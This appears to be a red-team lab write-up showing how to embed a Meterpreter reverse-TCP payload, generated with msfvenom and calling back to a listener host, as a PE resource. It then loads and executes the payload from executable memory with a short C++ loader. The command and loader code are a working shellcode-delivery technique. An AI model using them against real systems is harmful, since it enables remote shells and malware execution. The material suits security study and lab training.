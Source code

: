 # Loading and Executing Shellcode From PE Resources

## Context

This lab shows one of the techniques how one could load and execute a non-staged shellcode from within a C program using PE resources using Visual Studio.

If you've ever tried executing an unstaged shellcode from a C/C++ program, you know that you will be having a hard time doing it if you are defining a huge char array which looks like this (just a snippet):

![](<../../.gitbook/assets/Screenshot from 2019-04-21 12-33-31 (1).png>)

Below is a quick walkthrough that was inspired by [@\_RastaMouse](https://twitter.com/\_RastaMouse) tweet:

![](../../.gitbook/assets/screenshot-from-2019-04-21-13-13-14.png)

## Embedding The Shellcode as a Resource

Let's generate a non-staged meterpreter payload in binary format first. This will be our resource that we want to embed into our C++ program:

```csharp
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=443 > meterpreter.bin
```

Right click on the `Resource Files` in Solution Explorer and select `Add > Resource`

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-37-31.png)

Click `Import` and select the resource you want to include. In my case - it's the `meterpreter.bin`:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-42-31.png)

Give resource a resource type name - anything works, but you need to remember it when calling `FindResource` API call (shown later in the code):

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-43-59.png)

At this point, you can see in your resource browser that the `meterpreter.bin` is now included in your program's resources:

![](../../.gitbook/assets/screenshot-from-2019-04-21-11-45-49.png)

![](../../.gitbook/assets/screenshot-from-2019-04-21-12-07-17.png)

If you compile your program now and inspect it with resource hacker, you can now see the shellcode you have just embedded as a PE resource:

![](../../.gitbook/assets/screenshot-from-2019-04-22-17-35-35.png)

## Code

We can then leverage a small set of self-explanatory Windows APIs to find the embedded resource, load it into memory and execute it like so:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
	// IDR_METERPRETER_BIN1 - is the resource ID - which contains ths shellcode
	// METERPRETER_BIN is the resource type name we chose earlier when embedding the meterpreter.bin
	HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_METERPRETER_BIN1), L"METERPRETER_BIN");
	DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
	HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
	
	void *exec = VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcodeResouceData, shellcodeSize);
	((void(*)())exec)();

	return  0;
}
```

Compile and run the binary and enjoy the shell:

![](../../.gitbook/assets/peek-2019-04-21-12-30.gif)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/menurc/finding-and-loading-resources" %}
